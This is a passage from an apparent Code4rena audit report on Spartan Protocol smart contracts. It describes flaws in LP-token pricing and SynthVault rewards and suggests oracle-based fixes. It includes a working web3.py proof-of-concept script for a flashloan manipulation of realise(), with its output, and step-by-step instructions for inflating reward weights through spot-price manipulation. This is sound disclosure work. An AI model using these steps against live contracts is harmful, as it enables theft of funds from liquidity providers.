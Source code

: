 The vulnerability is located at `Synth.sol` [L187-L199](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Synth.sol#L187-L199). Where the formula [here](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Utils.sol#L114-L126) is dangerous.

Here’s a script for conducting flashloan attack:

    flashloan_amount = init_amount
    user = w3.eth.accounts[0]
    marked_token.functions.transfer(user, flashloan_amount).transact()
    marked_token.functions.transfer(token_pool.address, flashloan_amount).transact({'from': user})
    token_pool.functions.addForMember(user).transact({'from': user})
    received_lp = token_pool.functions.balanceOf(user).call()
    synth_balance_before_realise = token_synth.functions.mapSynth_LPBalance(token_pool.address).call()
    token_synth.functions.realise(token_pool.address).transact()
    token_pool.functions.transfer(token_pool.address, received_lp).transact({'from': user})
    token_pool.functions.removeForMember(user).transact({'from': user})
    token_synth.functions.realise(token_pool.address).transact()
    synth_balance_after_realise = token_synth.functions.mapSynth_LPBalance(token_pool.address).call()
    print('synth_lp_balance_after_realise', synth_balance_after_realise)
    print('synth_lp_balance_before_realise', synth_balance_before_realise)

Output:

    synth_balance_after_realise 1317859964829313908162
    synth_balance_before_realise 2063953488372093023256

Calculating Lp token’s value base on AMM protocol is known to be dangerous. There are a few steps that might solve the issue:

1.  calculate token’s price from a reliable source. Implement a TWAP oracle or uses chainlink oracle.
2.  calculate lp token value based on anti-flashloan formula. Alpha finance’s formula is a good reference: [https://blog.alphafinance.io/fair-lp-token-pricing](https://blog.alphafinance.io/fair-lp-token-pricing)

**[verifyfirst (Spartan) confirmed and disagreed with severity](https://github.com/code-423n4/2021-07-spartan-findings/issues/40#issuecomment-883856664):**

> A proposal has been suggested to limit the use of realise() for a DAO proposal. This will allow only liquidity providers to choose the outcome of a function that directly affects them.

[](#h-06-synthvault-rewards-can-be-gamed)[\[H-06\] `SynthVault` rewards can be gamed](https://github.com/code-423n4/2021-07-spartan-findings/issues/166)
--------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by cmichel_

The `SynthVault._deposit` function adds `weight` for the user that depends on the spot value of the deposit synth amount in `BASE`.

This spot price can be manipulated and the cost of manipulation is relative to the pool’s liquidity. However, the reward (see `calcReward`) is measured in BASE tokens unrelated to the pool. Therefore, if the pool’s liquidity is low and the reward reserve is high, the attack can be profitable:

1.  Manipulate the pool spot price of the `iSYNTH(_synth).LayerONE()` pool by dripping a lot of `BASE` into it repeatedly (sending lots of smaller trades is less costly due to the [path-independence of the continuous liquidity model](https://docs.thorchain.org/thorchain-finance/continuous-liquidity-pools)). This increases the `BASE` per `token` price.
2.  Call `SynthVault.depositForMember` and deposit a _small_ amount of synth token. The `iUTILS(_DAO().UTILS()).calcSpotValueInBase(iSYNTH(_synth).LayerONE(), _amount)` will return an inflated weight due to the price.
3.  Optionally drip more `BASE` into the pool and repeat the deposits
4.  Drip back `token` to the pool to rebalance it
